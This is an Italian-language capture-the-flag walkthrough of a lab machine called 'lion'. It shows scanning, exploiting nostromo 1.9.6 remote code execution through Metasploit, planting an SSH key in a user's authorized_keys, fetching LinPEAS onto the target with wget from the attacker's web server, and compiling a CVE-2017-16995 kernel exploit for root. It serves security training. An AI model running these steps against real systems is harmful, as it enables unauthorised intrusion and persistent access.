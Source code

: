 # lion
## ENUMERAZIONE
partiamo con uno scan delle porte e dei servizi che ci girano sopra.

```bash
nmap lion.thm -sV -sC 
```

troviamo 2 porte interessanti la porta 8080 e la 1337 

avete più possibilità io ho individuato 2 problemi principali di questa web app 
principalmente nostromo usa un paramentro http_verify che permette all'attacante di inviare comandi 
in questo caso vi consiglio di avviare metasploit
## EXPLOITATION
```bash
msfconsole
```
tramite questo cercate nostromo 
```bash
search nostromo
```

dovreste vedere una vulnerabilità di questo tipo nostromo 1.9.6 - Remote Code Execution

fate il comando 
```bash
use vulnerabilità trovata
```
aggiungete tutti i campi dell'exploit

fate run 

ed ecco che avremmo una console dove lanciare tutti i comandi che ci servono

i comandi che seguono serviranno per capire con che utente ci troviamo e per creare un chiave ssh che useremo dopo
```bash
id
```
genero una key per l'ssh
```bash
ssh-keygen
```
inserisco la chiave generata al posto di quella che esisteva già e tramite questa mi autorizzo l'accesso all'ssh
```bash
mkdir /home/gloria/.ssh; echo '<il file sshkey.pub>' > /home/gloria/.ssh/authorized_keys
```

tramite l'sshkey generata e salvata sulla nostra macchina facciamo la connessione in ssh

## SSH

```bash
ssh -i sshkey gloria@<lion.thm> -p 1337
```
ottimo siamo sull'ssh andiamo a fare il privesc

## privilege escalation

scarichiamo LinPEAS.sh sulla nostra macchina e passiamolo sulla macchina attaccata

```bash
python3 -m http.server 80
```
comando da eseguire sulla macchina attaccata:
```bash
wget http://vostroip/LinPEAS.sh
```

diamo i giusti permessi allo script
```bash
chmod +x LinPEAS.sh
./LinPEAS.sh
```

il kernel è vulnerabile andiamo ad usare l'exploit 
cve-2017-16995
scarichiamolo e andiamo a compilare sulla macchina per evitare corruzioni
fate i passaggi come se voleste passare linpeas.
una volta che il file cve-2017-16995.c si trova sulla macchina eseguite questo comando per compilarlo
```bash
gcc --static cve-2017-16995.c -o cve-2017-16995 && chmod +x cve-2017-16995 
```

avviatelo e il gioco e fatto!
```bash
./cve-2017-16995
```




